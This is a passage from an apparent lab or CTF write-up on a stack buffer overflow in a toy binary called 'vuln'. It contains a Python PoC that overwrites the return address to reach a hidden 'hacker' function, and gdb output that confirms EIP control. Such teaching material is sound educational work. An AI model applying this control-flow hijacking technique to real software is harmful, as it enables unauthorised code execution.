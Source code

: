 We find out that the address of function hacker is ```0x565561b9```.

Now, the payload will be as the following :

42's ```A``` and (the address of hacker function)

The PoC Python code ```poc.py``` :

```python
import struct
 
def p(x):
        return struct.pack("<L", x)
 
offset = 42
hacker = 0x565561b9
 
payload = ""
payload += "A" * offset
payload += p(hacker)
 
print payload
```

Exploit it now :

```bash
python poc.py | ./vuln

What is your name?  
Hey AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�aUV, you're harmless, aren't you?  
No, I'm a hacker!  
Segmentation fault  
```

The hidden hacker function is ran as a result.


## Bonus 

To find the EIP address :

```bash
python -c 'print("A"*42)+ "B"*4' > c.txt
```
```
(gdb) r < c.txt
```
```bash
(gdb) r < c.txt
Starting program: /root/Documents/vuln < c.txt
What is your name?
Hey AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB, you're harmless, aren't you?
 
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
```bash
(gdb) info registers
```
```bash
(gdb) info registers
eax            0x51                0x51
ecx            0x1f                0x1f
edx            0xf7fa9890          0xf7fa9890
ebx            0x41414141          0x41414141
esp            0xffffd330          0xffffd330
ebp            0x41414141          0x41414141
esi            0xf7fa8000          0xf7fa8000
edi            0xf7fa8000          0xf7fa8000
```